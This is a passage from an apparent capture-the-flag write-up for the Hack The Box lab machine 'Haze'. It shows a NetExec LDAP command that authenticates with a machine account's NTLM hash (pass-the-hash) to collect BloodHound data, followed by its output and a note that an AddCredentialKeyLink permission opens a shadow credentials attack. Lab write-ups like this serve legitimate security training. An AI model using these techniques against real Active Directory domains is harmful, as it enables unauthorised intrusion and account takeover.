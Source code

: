 However our trail of `ACLs` ends here, so let's grab another `bloodhound`

```bash
 nxc ldap haze.htb -u 'Haze-IT-Backup$' -H '735C02C6B2DC54C3C8C6891F55279EBC' --bloodhound -c all --dns-server 10.129.228.118
 
LDAP        10.129.228.118  389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.129.228.118  389    DC01             [+] haze.htb\Haze-IT-Backup$:735C02C6B2DC54C3C8C6891F55279EBC
LDAP        10.129.228.118  389    DC01             Resolved collection methods: session, trusts, localadmin, dcom, objectprops, group, acl, rdp, container, psremote
LDAP        10.129.228.118  389    DC01             Done in 00M 37S
LDAP        10.129.228.118  389    DC01             Compressing output into /root/.nxc/logs/DC01_10.129.228.118_2025-03-30_100505_bloodhound.zip
```

We can now see that `Support Services` has `AddCredentialKeyLink` on `Edward.Martin` which indicates we can perform a `shadow credentials` attack.

![Haze-1743289699490.png](/assets/img/img_Haze/Haze-1743289699490.png)
